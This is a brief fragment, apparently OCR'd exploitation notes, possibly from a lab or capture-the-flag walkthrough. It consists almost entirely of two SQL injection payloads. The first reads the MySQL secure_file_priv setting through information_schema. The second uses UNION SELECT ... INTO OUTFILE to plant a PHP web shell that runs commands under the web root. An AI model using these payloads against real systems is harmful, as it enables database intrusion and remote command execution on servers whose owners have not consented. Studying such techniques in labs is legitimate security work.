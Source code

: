    `cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`

   Value is empty, so write anything anywhere.

   `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -`
